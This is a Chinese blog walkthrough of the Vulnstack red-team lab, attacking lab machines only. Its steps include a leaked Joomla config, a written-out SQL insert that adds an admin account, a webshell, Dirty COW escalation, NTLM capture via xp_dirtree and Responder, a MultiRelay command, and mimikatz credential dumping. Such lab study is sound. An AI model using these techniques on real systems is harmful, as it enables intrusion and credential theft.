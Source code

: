 ```yaml
---
layout:     post
title:    渗透-Vulnstack靶机学习3
subtitle:   靶机渗透
date:       2020-01-24
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 渗透测试
    - 红队
    - 内网渗透
---
```

# 渗透-Vulnstack靶机学习3

Vulnstack是红日安全团队出品的一个实战环境，本次测试的红日安全 ATT&CK实战系列——红队实战（三）靶场环境，下载地址：[http://vulnstack.qiyuanxuetang.net/vuln/detail/5/](http://vulnstack.qiyuanxuetang.net/vuln/detail/5/)  


## Web
一共五个虚拟机文件，下载完后全部启动，有一个web，默认是192.168.1.110，我这改过后面换成了104。  
访问是一个joomla的站。  
![200124_1](/img/200124_joomla.png)  
查看了下版本，比较高，应该是不存在直接可以利用的漏洞。  
![200124_2](/img/200124_joomlaver.png)      
一步一步来，先扫一下目录和文件。  
![200124_3](/img/200124_dirscan.png)  
可以看到有个配置文件的备份文件泄漏。  
![200124_4](/img/200124_configbak.png)  
里面有一个mysql的测试账户，如果3306对外开放，可以利用这个测试账户，修改数据库，添加管理进入后台。测试下3306是否对外开放。  
![200124_5](/img/200124_3306.png)  
端口是开着的。登陆下试试，可以登陆。  
![200124_6](/img/200124_mysqllogin.png)  
根据官方手册，添加一个admin2 密码为secret的账户。  
```
NSERT INTO `am2zu_users`
   (`name`, `username`, `password`, `params`, `registerDate`, `lastvisitDate`, `lastResetTime`)
VALUES ('Administrator2', 'admin2',
    'd2064d358136996bd22421584a7cb33e:trd7TvKHx6dMeoMmBVxYmg0vuXEA4199', '', NOW(), NOW(), NOW());
INSERT INTO `am2zu_user_usergroup_map` (`user_id`,`group_id`)
VALUES (LAST_INSERT_ID(),'8');
```   
图中踩了个小坑，表前缀根据配置文件的来，而不是数据库中显示的。  
![200124_7](/img/200124_addadmin.png)  
登陆以后拿webshell比较简答，在模板中创建文件即可。  
![200124_8](/img/200124_webshell.png)  
用蚁剑链接后，不能执行命令。  
![200124_9](/img/200124_runerror.png)  
没有关系，直接翻文件，翻了一圈，翻到一个有意思的文件。  
![200124_10](/img/200124_test.png)  
尝试登陆一下，emmm可以成功登陆192.168.1.104。对比发现文件目录并不一样，推测104是一个反向代理服务器。    
![200124_11](/img/200124_ifconfig2.png)   
## 内网 提权
看了下内核版本，应该可以用脏牛提权。  
![200124_12](/img/200124_dirtycow.png)  
然后用msf生成个elf，反弹下，用这个去扫内网快一点。  
![200124_13](/img/200124_payload.png)  
添加路由。  
![200124_14](/img/200124_addroute.png)  
扫一下内网smb，有3台。  
![200124_15](/img/200124_smbscan.png)  
基本的内网拓扑就知道了，一台centos反向代理了一个web，两张网卡，内网由一个web服务器，没有去尝试执行命令和提权，然后是一个三台win组成的域环境，192.168.93.10，192.168.93.20，192.168.93.30.  
扫了下端口服务，发现有一台192.168.93.20开启了1433端口，测试能用之前mysql的testuser账号密码登陆，其他的ms17010均不行。  
尝试使用mssql来完成ntlm中继的过程。正常情况下要在服务器上去操作dir远程主机的命令（不用net use 是因为dir会自动测试本地已有的hash，而不需要手动输入）， 这里利用mssql调用***xp_dirtree***来代替完成这个过程。  
上传Responder至104并开启。然后在msf中调用模块(***auxiliary/admin/mssql/mssql_ntlm_stealer***)去触发UNC。  
![200124_16](/img/200124_unc.png)  
192.168.1.104上开启responder。  
![200124_17](/img/200124_responder.png)   
获取到hash，可以尝试破解。实际上不破解也可以，配合利用MultiRelay进行转发即可。   
## smb中继 
在实际测试中发现了一个问题，我这里192.168.93.30去尝试登陆20不行，反过来是可以的，所以为了测试，并写中继的过程，我是手动去完成这个过程的，登陆了20执行了dir命令。    
先在104上开启MultiRelay。  
```
python MultiRelay.py -t 192.168.93.20 -u Administrator
``` 
-t是尝试去登陆的机器，实际上应该是由20发起登陆请求中继登陆30，这里我是反过来了，没办法是这样的。这里-u我写了administrator，因为我知道有这个账户，不知道的话就写ALL。  
然后去192.168.93.30上执行：  
```
dir \\192.168.93.100\c$
```
然后在MultiRelay中会返回一个shell。  
![200124_18](/img/200124_shell.png)  
使用mimikatz读取密码.  
![200124_19](/img/200124_mimikatz.png)  
仔细看是有域管的密码的。  
那就已经完毕了。  
![200124_20](/img/200124_domainip.png)  
如果照原始的套路来做，会麻烦一点，多一步，我们是根据20登陆的30，30读到的密码，需要再去登陆20，然后mimikatz，比较绕。 原理是一样的。  


## 参考
[https://xz.aliyun.com/t/6988](https://xz.aliyun.com/t/6988)   
[https://www.jianshu.com/p/c7d8e7d9c03c](https://www.jianshu.com/p/c7d8e7d9c03c)  
[https://xz.aliyun.com/t/3560](https://xz.aliyun.com/t/3560)  
